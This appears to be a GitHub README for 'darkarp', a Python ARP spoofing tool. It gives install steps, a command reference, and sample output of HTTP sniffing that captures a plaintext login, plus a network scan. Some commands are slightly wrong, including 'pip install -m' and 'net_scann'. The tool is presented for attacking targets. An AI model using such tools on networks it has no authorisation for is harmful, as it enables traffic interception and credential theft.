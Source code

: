 # About tool
Darkarp is a featured ARP (Address Resolution Protocol) spoofing tool written with Python programming language.
<hr />

# Installation 

clone the repository

```bash
git clone https://github.com/akulife/darkarp.git
```

enter directory called 'darkarp'

```bash
cd darkarp
```
install requirements

```bash
pip install -m requirements.txt
```
print usage 

```bash
python3 darkarp.py
```
<hr />

# Usage


![example code](https://github.com/akulife/darkarp/blob/whoami/img/darkarp.png)

As you can see from the arguments on the output above, for defining the target which is you want to attack, you need to use the -t flag, and gateway address is detecting by darkarp. In darkarp you have a custom command line, wich is you can run darkarp features. Run "*help*" command for listing all commands. 

```
darkarp> help

	system options
                    
	clear - clear the terminal                    
	exit - stop process and exit
                    
	console options
                    
	sniff wlan0 - enable HTTP sniffing on wlan0 interface                                        
	net_scan - scan local network IP addresses
	
darkarp> 
```
<hr>

# Darkarp features

## HTTP sniffing attack

HTTP sniffing attack is performing by giving "**sniff** <i>interface</i>" command.

```bash
darkarp> sniff wlan0
HTTP packet sniffing started... Waiting HTTP requests...
[+] client: 172.20.10.4 server: example.com/ method: GET
[+] client: 172.20.10.4 server: example.com/ method: GET
[+] client: 172.20.10.4 server: unicornitems.com/my-account/ method: POST
[/] POST:
Parameters:
b'username=admin&password=suppersecretpasswd'

```

## Network scanning

You can scann local network IP addresses simply by giving "**net_scann**" command.

```bash
darkarp> net_scan
#Available devices in the network:
	IP                  MAC
	192.168.0.1         00:1B:44:11:3A:B7
	192.168.0.4         52:4:t9:00:fA:C1
darkarp> 
```

<hr>

# Version
version 1.5.0

